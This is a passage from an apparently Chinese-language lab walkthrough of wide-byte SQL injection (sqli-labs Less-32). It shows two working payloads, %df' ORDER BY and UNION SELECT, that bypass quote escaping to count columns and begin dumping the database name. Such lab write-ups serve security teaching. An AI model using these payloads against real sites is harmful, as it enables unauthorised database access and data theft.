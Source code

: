 ```
Copy ?id=1%df' ORDER BY 4--+
```

[![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less32-宽字节注入.assets/1774310-20201112132121053-1872758153.png)](https://img2020.cnblogs.com/blog/1774310/202011/1774310-20201112132121053-1872758153.png)
 判断哪几列可用。

```sql
Copy ?id=-1%df' UNION SELECT 1,2,3 --+
```

[![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less32-宽字节注入.assets/1774310-20201112132213485-1888390718.png)](https://img2020.cnblogs.com/blog/1774310/202011/1774310-20201112132213485-1888390718.png)
 爆数据库名。
